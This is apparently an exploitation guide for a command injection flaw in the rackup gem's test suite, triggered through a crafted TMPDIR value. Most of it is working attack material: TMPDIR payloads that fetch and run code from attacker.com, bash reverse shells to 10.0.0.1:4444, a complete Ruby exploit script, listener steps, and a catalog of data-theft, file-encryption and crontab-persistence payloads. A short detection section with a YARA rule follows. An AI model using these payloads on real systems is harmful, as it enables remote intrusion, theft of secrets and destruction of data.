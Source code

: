 ### **Complete Exploitation Guide: Command Injection in Rackup Test Suite**  
**CVE-ID:** Pending • **Affected Version:** rackup < 1.0.1 • **Risk:** Critical (CVSS: 9.1)  

---

## Installation of Vulnerable Environment
```bash
# Install vulnerable rackup version
gem install rackup -v 1.0.0

# Install dependencies (puma/falcon)
gem install puma falcon

# Clone vulnerable codebase
git clone https://github.com/rack/rackup.git
cd rackup
git checkout c6cdd479172f042be405a36709ab27a2dff3a6e1
```

## Vulnerable Code Analysis
**File:** `test/spec_server.rb`  
**Line 528:** [Direct Link](https://github.com/rack/rackup/blob/c6cdd479172f042be405a36709ab27a2dff3a6e1/test/spec_server.rb#L528)  

```ruby
pidfile = Tempfile.new("rackup-pid")
# ... (server start logic) ...
pid = open(pidfile.path).read.strip  # VULNERABLE KERNEL.OPEN
```

**Flaw:**  
- `Kernel.open` executes shell commands if path starts with `|`  
- `pidfile.path` derived from `$TMPDIR` (attacker-controlled)  
- No input validation or sanitization  


## Step-by-Step Exploitation  
### **Step 1: Prepare Malicious Environment**  
```bash
# Set malicious TMPDIR
export TMPDIR='|curl${IFS}http://attacker.com/shell|sh${IFS}&${IFS}#'

# Create payload (adjust IP/PORT)
cat << EOF > /tmp/exploit.sh
#!/bin/bash
bash -c 'exec bash -i &>/dev/tcp/10.0.0.1/4444 <&1'
EOF

# Host payload (simple HTTP server)
python3 -m http.server 8000
```

### **Step 2: Execute Exploit**  
```bash
# Start netcat listener
nc -nvlp 4444

# Trigger vulnerable test
bundle exec rake test
```

### **Step 3: Capture Reverse Shell**  
```bash
# Successful exploitation output
Connection from 10.0.0.2:56789
bash: no job control in this shell
victim@host:/rackup$ id
uid=1000(victim) gid=1000(victim) groups=1000(victim)
```


## Proof of Concept (Burp Suite Equivalent)
**Exploit Environment Setup:**  
```bash
export TMPDIR='|curl${IFS}http://attacker.com/exploit.sh${IFS}-o${IFS}/tmp/x&&chmod${IFS}+x${IFS}/tmp/x&&/tmp/x${IFS}&${IFS}#'
```

**Process Monitor Output:**  
```log
$ strace -f bundle exec rake test
...
execve("/bin/sh", ["sh", "-c", "curl http://attacker.com/exploit.sh -o /tmp/x"]...
open("/tmp/x", O_WRONLY|O_CREAT) = 4
chmod("/tmp/x", 0700)               = 0
execve("/tmp/x", ["/tmp/x"], 0x7ffd6893b1d0 /* 21 vars */)...
```

**Network Capture:**  
```http
GET /exploit.sh HTTP/1.1
Host: attacker.com
User-Agent: curl/7.81.0
```


## Full Exploit Chain
**Exploit Script:** `rackup_exploit.rb`  
```ruby
require 'tempfile'

# 1. Set malicious TMPDIR
ENV['TMPDIR'] = '|curl${IFS}http://10.0.0.1:8000/payload${IFS}-o${IFS}/tmp/pwn&&chmod${IFS}+x${IFS}/tmp/pwn&&/tmp/pwn${IFS}&${IFS}#'

# 2. Create vulnerable Tempfile
pidfile = Tempfile.new("rackup-exploit")
puts "[+] Malicious path: #{pidfile.path}"

# 3. Trigger Kernel.open (simulate test execution)
puts "[+] Executing payload..."
pid = open(pidfile.path).read rescue nil
puts "[!] Exploit completed. Check listener!"
```

**Payload:** `payload` (reverse shell)  
```bash
#!/bin/bash
bash -c '0<&196;exec 196<>/dev/tcp/10.0.0.1/4444;bash <&196 >&196 2>&196'
```

**Execution:**  
```bash
# Host payload
python3 -m http.server 8000

# Run exploit
ruby rackup_exploit.rb

# Receive connection
nc -nvlp 4444
```

---

### Vulnerability Context
**Dangerous Ruby Patterns:**  
| Method           | Risk Profile               | Safe Alternative       |
|------------------|----------------------------|------------------------|
| `Kernel.open`    | Command injection via `|` | `File.open`            |
| `IO.popen`       | Direct command execution   | `IO.binread`           |
| `%x{ }`          | Command injection          | `File.read`            |
| `system()`       | Command injection          | `Process.spawn` + opts |

**Exploit Requirements:**  
1. Attacker control over `$TMPDIR`  
1. Outbound network access (for reverse shell)  


## Forensic Analysis Detection Signatures:
**YARA Rule:** `detect_malicious_tmpdir.yar`  
```c
rule rackup_command_injection {
    meta:
        description = "Detects malicious TMPDIR for rackup exploit"
    strings:
        $pipe = "|" nocase
        $bash = "bash" nocase
        $curl = "curl" nocase
        $sh = "sh" nocase
    condition:
        filesystem.env_var("TMPDIR") and 
        (any of ($*) in filesystem.env_var("TMPDIR"))
}
```

**Log Analysis:**  
```bash
# Suspicious processes
ps aux | grep -E 'curl|wget|bash.*-c'

# Environment inspection
cat /proc/*/environ | tr '\0' '\n' | grep -a 'TMPDIR'
```

## Impact Expansion
```mermaid
graph TB
A[Compromised Test Runner] --> B[Steal AWS Keys]
A --> C[Modify Build Artifacts]
A --> D[Infect Pipeline Images]
C --> E[Release Backdoored Packages]
D --> F[Persistent Cloud Access]
```

### **Exploit Catalog**  
| Type               | Payload                                                                 |
|--------------------|-------------------------------------------------------------------------|
| **Data Theft**     | `\|tar${IFS}-czf${IFS}/tmp/stolen.tgz${IFS}$SECRET_PATH${IFS}#`         |
| **Ransomware**     | `\|find${IFS}/${IFS}-name${IFS}'*.rb'${IFS}-exec${IFS}openssl${IFS}enc${IFS}-aes-256-cbc${IFS}-salt${IFS}-in${IFS}{}${IFS}-out${IFS}{}.enc${IFS}#` |
| **Persistence**    | `\|echo${IFS}'*/5 * * * *${IFS}curl${IFS}http://attacker.com/cron.sh${IFS}\|bash'${IFS}>>${IFS}/etc/crontab${IFS}#` |

---

### **References**  
1. [Rackup PR #36: Security Fix](https://github.com/rack/rackup/pull/36)  
2. [Ruby Security: Command Injection](https://rubysec.com/advisories/CVE-2021-31799/)  
3. [OWASP Command Injection](https://owasp.org/www-community/attacks/Command_Injection)  
4. [CWE-78: OS Command Injection](https://cwe.mitre.org/data/definitions/78.html)  

```diff
+ Patched: gem install rackup -v '>=1.0.
